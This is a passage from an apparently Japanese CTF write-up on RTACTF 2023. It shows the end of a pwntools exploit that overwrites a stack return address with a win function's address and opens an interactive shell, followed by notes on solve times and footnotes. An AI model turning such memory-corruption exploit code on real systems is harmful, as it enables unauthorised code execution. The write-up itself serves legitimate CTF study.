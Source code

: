 ```python
print(hex(ret))

# overwrite return address
sc.sendline(b"2")
sc.recvuntil(b"index: ")
idx = (ret - array_addr) // 0x8
sc.sendline(str(idx).encode())
sc.recvuntil(b"value: ")
sc.sendline(str(win_addr).encode())

sc.interactive()

# RTACTF{environ_to_stack...}
# 敗因: libc address leak以外全部
```

この問題は新要素があってGoogleとGDBと戯れていていたこともあり、2933.11秒で解きました。解いて放送に戻ったら4問目のonly-readの解説が終わっていました。

## only-read (目標: 1800sec)

~~解いていないので近々復習するかもしれないです (解いたとしてもここに追記するか別記事に書くかは不明)~~

書きました: [RTACTF 2023 - only-read](https://project-euphoria.dev/problems/rtactf-2023-only-read/)

## (番外編) Crypto

開始直前の問題一覧に「AES」とかいう文字が見えたので、エディタとターミナルを閉じて酒を飲みに行きました[^4]。

---

[^1]: 特にこの影響を受けているのがRevで最近のバイナリはどいつもこいつも2.34以上を要求してくる

[^2]: 後で放送を見返したらlibc中のGOT(Partial-RELRO)といった何らかの関数ポインタを書き換えるといったことが検討されていたが、思いつきもしなかったしこれもそもそも難しいらしい

[^3]: 実際は負数なので引いている

[^4]: これは半分嘘で、Cryptoの3問目ぐらいまで(走者の皆様が沼っているのを)観戦しそこから酒を飲みに行った
